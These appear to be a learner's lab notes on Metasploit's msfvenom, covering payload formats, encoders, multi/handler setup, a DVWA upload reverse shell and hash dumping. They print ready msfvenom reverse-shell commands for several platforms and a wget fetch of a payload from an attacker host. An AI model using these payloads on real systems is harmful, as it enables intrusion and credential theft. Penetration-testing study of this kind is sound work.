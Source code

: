 Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.)
![[Pasted image 20240815200512.png]]

### Output formats
You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The `msfvenom --list formats` command can be used to list supported output formats.

### Encoders
Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`.

![[Pasted image 20240815201242.png]]

### Handlers
Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the `payload options` title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). For the exercises in this task, you will need to replicate a similar scenario on another target system, DVWA was used here for illustration purposes. The exploit steps are;
1. Generate the PHP shell using MSFvenom
2. Start the Metasploit handler
3. Execute the PHP shell  

MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect. Seen below, 10.0.2.19 is the IP address of the AttackBox used in the attack and local port 7777 was chosen.
![[Pasted image 20240815201417.png]]

*Note:*
	The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below:
![[Pasted image 20240815201517.png]]

The reverse_shell.php file should be edited to convert it into a working PHP file. 
Below: Comments removed from the beginning of the file // end tag added.
![[Pasted image 20240815201603.png]]
![[Pasted image 20240815201632.png]]

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command. Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells. To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.
![[Pasted image 20240815201802.png]]

Once everything is set, we will `run` the handler and wait for the incoming connection.
![[Pasted image 20240815201819.png]]

Note:
	When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell. If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

### Other Payloads
Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen. Below are a few examples you will often use:

**Linux Executable and Linkable Format (elf)**  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.  
  
**Windows**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
**PHP**  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
**ASP**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
**Python**  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`


## Examples
1) Create a meterpreter payload in the .elf format 
![[Pasted image 20240815204009.png]]

2) Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget `http://ATTACKING_MACHINE_IP:9000/shell.elf` to download it to the target machine)
![[Pasted image 20240815204155.png]]

3) Get a meterpreter session on the target machine
![[Pasted image 20240815204419.png]]
![[Pasted image 20240815204439.png]]
![[Pasted image 20240815204600.png]]

4) Use a post exploitation module to dump hashes of other users on the system.
![[Pasted image 20240815204656.png]]

